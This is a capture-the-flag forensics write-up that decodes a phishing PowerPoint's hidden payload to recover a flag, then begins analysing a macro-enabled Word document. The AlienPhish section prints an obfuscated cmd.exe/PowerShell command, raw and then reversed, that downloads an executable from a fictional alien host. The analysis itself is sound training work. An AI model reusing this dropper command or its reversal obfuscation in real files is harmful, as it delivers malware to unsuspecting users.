 # Forensics

## AlienPhish

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

## Invitation

* So we get a docm file. 
* I start by unzippping the word document 
* We get a docm
* Unzip it again and see folders

![](https://i.imgur.com/QGNpoAN.jpg)

**PART 1**

* First thing I tried to do after looking around was 

```bash
strings vbaProject.bin
```

* Which gives back interesting hex lines. 

![](https://i.imgur.com/wCwsViH.jpg)
